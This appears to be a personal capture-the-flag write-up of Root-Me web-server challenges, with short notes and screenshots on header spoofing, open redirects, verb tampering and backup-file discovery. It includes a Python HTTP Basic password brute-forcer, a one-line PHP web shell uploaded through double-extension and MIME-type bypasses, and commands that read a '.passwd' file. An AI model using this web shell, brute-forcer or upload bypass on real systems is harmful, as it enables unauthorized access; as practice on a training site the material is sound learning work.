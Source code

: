 ```yaml
---
description: 'Note : A JOURNEY TO GAIN KNOWLEDGE'
---
```


# 🏝 Rootme

## Web - Server

### [HTML - Source code](https://www.root-me.org/en/Challenges/Web-Server/HTML-Source-code)

F12 for flag

### [HTTP - IP restriction bypass](https://www.root-me.org/en/Challenges/Web-Server/HTTP-IP-restriction-bypass)

``[`document`](https://medium.com/r3d-buck3t/bypass-ip-restrictions-with-burp-suite-fb4c72ec8e9c)``

![](<../.gitbook/assets/image (39) (1).png>)

> **Syntax: X-Forwarded-For: \<client>,\<proxy1>,\<proxy2>,\<proxy3>**

Change IP at client to private IP by adding _**an X-Forwarded-For**_ header

![](<../.gitbook/assets/image (13) (2).png>)

### [HTTP - Open redirect](https://www.root-me.org/en/Challenges/Web-Server/HTTP-Open-redirect)

![](<../.gitbook/assets/image (35).png>)

It combines URL and hash md5 of that one, so that we just put other URL and hash of it.

![](<../.gitbook/assets/image (29) (1).png>)

### HTTP - User-agent

change User-Agent to \`admin\`

![](<../.gitbook/assets/image (18).png>)

### Weak password

```
import requests
from requests.auth import HTTPBasicAuth
url = "http://challenge01.root-me.org/web-serveur/ch3/"
usr = "admin"
words = open('common_password.txt','r').read().split('\n')
cnt =1
for pwd in words:
	print(pwd,cnt)
	
	res = requests.get(url, auth=HTTPBasicAuth(usr, pwd))
	
	if "401" not in res.text:
		print('Password is ' + pwd)
		break
	cnt +=1
```

![](<../.gitbook/assets/image (39).png>)

### PHP - Command injection

![](<../.gitbook/assets/image (32) (2).png>)

![](<../.gitbook/assets/image (33).png>)

``[`document`](https://portswigger.net/web-security/os-command-injection)``

### Backup file

Use dirsearch find some interesting files:

![](<../.gitbook/assets/image (24).png>)

> /web-serveur/ch11/index.php\~

### HTTP - Directory indexing

> [http://challenge01.root-me.org/web-serveur/ch4/admin/backup/admin.txt](http://challenge01.root-me.org/web-serveur/ch4/admin/backup/admin.txt)
>
>

![](<../.gitbook/assets/image (5) (3).png>)

### HTTP - Headers

With normal request we will get:

![](<../.gitbook/assets/image (1).png>)

add Header to request:

> Header-RootMe-Admin: True

![](<../.gitbook/assets/image (32).png>)

### HTTP - POST

![](<../.gitbook/assets/image (2).png>)

### HTTP - Improper redirect

Capture before it redirect

![](<../.gitbook/assets/image (3).png>)

### HTTP - Verb tampering

Ban đầu tưởng bruteforce ngồi xài hydra và cái rockyou.txt ra spam cả tiếng&#x20;

![](<../.gitbook/assets/image (5).png>)

temper ở đây là chỉ cần đổi method khác ngoài GET và POST là được, cứ PUT với DELETE mà phang

![](<../.gitbook/assets/image (10).png>)

### File upload - Double extensions

```
<?php echo shell_exec($_GET['cmd']); ?>
```

set file.php.png and send to the server

![](<../.gitbook/assets/image (16).png>)

```
?cmd=cd;cat .passwd
```

### File upload - MIME type

![](../.gitbook/assets/image.png)

Change Content-Type to image/png and rce

```
?id=cd;cat .passwd
```

